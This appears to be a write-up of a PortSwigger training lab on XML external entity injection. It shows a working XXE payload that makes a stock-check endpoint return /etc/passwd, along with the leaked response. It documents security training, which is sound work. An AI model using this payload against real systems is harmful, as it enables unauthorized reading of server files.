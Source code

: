# Description
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

# Process
This lab took place in the same shop that is used for a number of other PortSwigger labs. It has a home page with categories and a list of products, and each product has its own page. The notable part of this is that on each site, there is a button to check the stock of the product, which will print out the number of units on the page.

First, I opened Burp and intercepted a request for the product stock. The request included a body with the following:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>11</productId>
	<storeId>1</storeId>
</stockCheck>
```
First, I thought to do exactly what was shown in the lesson. I edited the body to show the following:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```
Surprisingly, the response to this included the `/etc/passwd` file:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 2284

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
This solved the lab.